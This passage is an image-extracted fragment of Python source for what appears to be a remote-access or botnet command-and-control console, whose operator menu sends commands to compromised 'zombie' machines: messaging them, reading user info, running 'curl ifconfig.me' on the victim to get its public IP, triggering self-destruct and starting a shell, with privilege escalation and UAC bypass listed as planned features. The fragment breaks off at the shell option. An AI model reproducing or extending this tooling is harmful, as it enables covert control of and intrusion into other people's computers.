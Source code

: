 ```python
            os.system("cls")
        else:
            os.system("clear")
        print(Fore.GREEN)
        print("what would you like to do?")
        print("1. Send a Message")
        print("2. Get user info")
        print("3. Get public ip")
        print("4. Kill Zombie")
        print("5. Start a Shell!")
        print("6. Whoami")
        """
        =============================================
        Preview of what's to come :)  get pumped!!!!
        =============================================
        print("7. GetSyst3m!!!")
        print("8. BypassUAC")
        print("9. Migrate Process")
        """
        print("15. Main menu")
        print(Fore.WHITE)
        try:
            choice=input(Fore.YELLOW + "[Select a number]: $ " + Fore.WHITE)
        except:
            print(Fore.RED + "[!] enter a number..." + Fore.WHITE)
            time.sleep(2)
            return
        if choice == "1":
            try:
                clientlist[selection][1].send(b":msg:\nhey from the server!\n")
                print(Fore.GREEN + "[+] Message Sent!" + Fore.WHITE)
                time.sleep(2)
            except:
                print(Fore.RED + "[!] there was an error sending the msg to the zombie...\ncheck to see if your zombie died" + Fore.WHITE)
                time.sleep(2)
        if choice == "2":
            for a in clientdata[selection]:
                print(a)
            input()
        if choice == "3":
            try:
                clientlist[selection][1].send(b"c0mm@nd\ncurl ifconfig.me\n")
                print(Fore.GREEN + "[+] command sent!" + Fore.WHITE)
                pubip=clientlist[selection][1].recv(1024)
                pubip = pubip.decode('UTF-8')
                print(pubip)
                input("press any key...")
            except:
                print(Fore.RED + "[!] there was an error sending the command to the zombie...\ncheck to see if your zombie died" + Fore.WHITE)
                time.sleep(2)
        if choice == "4":
            try:
                clientlist[selection][1].send(b"self-destruct\n")
                print(Fore.GREEN + "[+] zombie self-destruct succeeded!" + Fore.WHITE)
                time.sleep(2)
            except:
                print(Fore.RED + "[!] There was an issue communicating with the zombie...\ncheck to see if your zombie died" + Fore.WHITE)
                time.sleep(2)
        if choice == "5":
            #starttheshell(clientlist[selection][1])
```